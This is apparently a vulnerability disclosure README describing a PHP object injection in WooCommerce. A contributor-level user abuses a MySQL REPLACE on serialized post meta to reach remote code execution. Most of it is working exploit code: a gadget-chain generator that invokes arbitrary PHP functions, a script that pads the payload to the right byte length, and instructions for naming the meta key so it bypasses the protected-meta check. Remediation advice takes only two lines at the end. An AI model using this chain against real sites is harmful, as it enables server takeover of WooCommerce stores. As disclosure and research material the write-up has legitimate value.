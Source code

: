 # WooCommerce MySQL replace to RCE

This bug is 0day, but same as this bug was reported in the past. Try to fix here https://woocommerce.wordpress.com/2018/08/29/woocommerce-3-4-5-security-fix-release-notes/ and fix here https://woocommerce.wordpress.com/2018/10/11/woocommerce-3-4-6-security-fix-release-notes/. Anyway, in the code there is another DB query that modifies serialized PHP content outside from serialize / unserialize PHP functions and that results into user object injection. Beside numerous tries to harden WP, yet this bug is exploitable from contributor user role. See full exploitation via this video.

## Eli5 PoC

In order someone to be able to exploit issue like this, two things are needed. 
- PHP gadget chain (Woo have one)
- knowledge about data that will be replace (it is public data in any Woo instance)

Woo PHP gadget chain generator that will survive `wc_clean`
```
<?php
//MIT license
define("WOO_POC_WIZZARD", TRUE);
if (WOO_POC_WIZZARD){
    if ( isset($argv) && is_array($argv) ){
        if ( sizeof($argv) >= 2 ){
            $call_func = $argv[1];
            $call_func_params = array_slice($argv, 2);
        }else{
            echo "Usage php poc_woo.php print_r input1 input2 ...\n";
            exit();
        }
    }elseif(isset($_REQUEST) && is_array($_REQUEST) ){
        if (sizeof($_REQUEST) >= 1 && isset($_REQUEST["func"])) {
            $call_func = $_REQUEST["func"];
            $call_func_params = isset($_REQUEST["param"])?$_REQUEST["param"]:array();
        }else{
            echo "<p>Usage http://your_localhost/poc_woo.php?func=print_r".htmlentities("&")."param[0]=test".htmlentities("&")."param[1][0]=test2".htmlentities("&")."param[1][1]=test2</p>";
            exit();
        }
    }
}else{
    echo "Set \$call_func and \$call_func_params by hand here\n";
    /*
     $call_func = "print_r";
     $call_func_params = array(array(1,2,3), "search1", "search2");
     //*/
}
class Requests_Utility_FilteredIterator extends ArrayIterator {
    protected $callback;
    public function __construct($data, $callback) {
        parent::__construct($data);
        $this->callback = $callback;
    }
    public function current() {
        $value = parent::current();
        $value = call_user_func($this->callback, $value);
        return $value;
    }
}
class WC_Log_Handler{
}
class WC_Log_Handler_File extends WC_Log_Handler {
    protected $handles = array();
    function __construct($call_func, $call_func_params){
        //seccond argument e.g. print_r is the function that will be called. Could be any php/wp function
        //each array member from the constructor first argument is the input towards the function
        $this->handles = new Requests_Utility_FilteredIterator($call_func_params, $call_func);
    }
}
//create test object
$test_obj = new WC_Log_Handler_File($call_func, $call_func_params);
//string e.g. serialized object
$serialized_obj = serialize($test_obj);
//make it to go trough filters for control characters like wp text sanitation mechanisms
$serialized_obj = str_replace('s:10:"'."\x00".'*'."\x00".'handles"', 'S:10:"\00\2A\00\68\61\6E\64\6C\65\73"', $serialized_obj);
$serialized_obj = str_replace('s:11:"'."\x00".'*'."\x00".'callback"', 'S:11:"\00\2A\00\63\61\6C\6C\62\61\63\6B"', $serialized_obj);
//correct the size of "Requests_Utility_FilteredIterator":_number_: with +22
preg_match('/_FilteredIterator":([0-9]+):/s', $serialized_obj, $found);
$serialized_obj = str_replace($found[0], '_FilteredIterator":'.($found[1]+22).':', $serialized_obj);
//print the test payload
if ( isset($argv) ){
    echo "\n#######payload#######\n";
    echo $serialized_obj."\n";
    echo "#######payload#######\n\n";
}else{
    echo "#######payload#######<br/>";
    echo $serialized_obj."<br/>";
    echo "#######payload#######<br/>";
}
exit();
```
this output will be used as input towards final payload generator where we need another constraint: number of bytes that will be added or removed (below script will work for bytes adding and for every number of bytes added payload can be generated)
```
<?php 

//grab it from some payload generator Woo/WP or PHP related 
//https://gist.github.com/Slavco/946905eef6f9cb0f03a2ed2bdee83d9c
$payload_real = 'O:19:"WC_Log_Handler_File":1:{S:10:"\00\2A\00\68\61\6E\64\6C\65\73";C:33:"Requests_Utility_FilteredIterator":101:{x:i:0;a:1:{i:0;s:11:"ScotchDolly";};m:a:1:{S:11:"\00\2A\00\63\61\6C\6C\62\61\63\6B";s:9:"error_log";}}}';

$payload_prepend = '";i:777;'; //chances to have something similar in real payload are marginal so we can use as starting point
$payload_append  = '}';//to finish the serialized string array in this case
$payload_pre_final = $payload_prepend.$payload_real.$payload_append;

//could be anything - this is for this current Woo case :)
$change_str = 's:6:"pa_boo";s:3:"woo";';

$change_in_bytes_plus = 5;
//todo change in bytes minus

$repeat = 0;
$cnt = 1;
do{
    
    $mod = mb_strlen($payload_pre_final) % $change_in_bytes_plus;
    $repeat = mb_strlen($payload_pre_final) / $change_in_bytes_plus;
    if ( $mod !== 0 ){
        $tmp = '";i:'.str_repeat("7", (3+$cnt)).';';
        $old = '";i:'.str_repeat("7", (3+$cnt-1)).';';
        $payload_pre_final = str_replace($old, $tmp, $payload_pre_final);
    }
    $cnt++;
}while( $mod !== 0);

echo urlencode(str_repeat($change_str, $repeat).$payload_pre_final);
exit();
```
Now everything left is to add this payload as item of meta value array and to name it 
`%11_default_attributes` in order to prevent protected meta check and MySQL query to consider it as desired data that need to be changed.
```
UPDATE {$wpdb->postmeta} SET meta_value = REPLACE( meta_value, %s, %s ) WHERE meta_key = '_default_attributes'...
```

## Few facts

- Changing a byte from serialized content results with unserialize of user input, because its format
- PHP serialization is faster than json on big data sets
- When someone say do not change serialized string, means do not https://files.ripstech.com/slides/OWASP_AppSec_EU18_WordPress.pdf

## Remediation

- Put constraints into your php ini regarding serialization
- Sign your content, so any change from outside world will be detected and not processed 



